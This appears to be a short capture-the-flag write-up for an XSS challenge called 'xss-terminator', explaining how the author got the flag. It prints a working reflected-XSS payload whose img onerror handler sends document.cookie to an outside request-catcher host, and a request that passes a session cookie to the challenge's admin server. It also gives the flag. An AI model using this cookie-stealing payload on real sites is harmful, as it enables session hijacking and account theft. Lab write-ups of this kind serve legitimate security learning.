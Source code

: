 # xss-terminator
### Description
> The Terminator told you to put the cookie down, and you didn't listen. Now he is very angry! You must find a way to steal the cookie from the vulnerable website and send it to the evil server where the Terminator is waiting... just don't make him wait too long.

### This is simple XSS challenge

Here there is an input and write the xss payload,

![](https://i.imgur.com/RgW3XOp.png)

Now simply use the payload from (https://github.com/R0B1NL1N/WebHacking101/blob/master/xss-reflected-steal-cookie.md) and you will get the flag:

payload: `http://198.211.99.71:3000/?q=%3Cimg%20src%3dx%20onerror%3dthis.src%3d%27https://jerseyctf23.requestcatcher.com/?c%3d%27+document.cookie%3E`

But hey, this challenge is broken and we can get flag directly from our cookie too. So directly go to `console`, grab to cookie and send the request to admin server like this,
`http://198.211.99.71:3001/cookie?data=connect.sid=s%3AhTlE8O9IWFxVt6uVkCIbcaDQKVLX5eBP.IezMDe6bR6Gl0arr4kUu%2FUq7PKtl9oMDixpMflapJEU`

You will get `Thanks` as response, then go back to main page in admin server and reload, you will get the flag.

Flag: `jctf{who_said_you_could_open_the_cookie_jar!?}`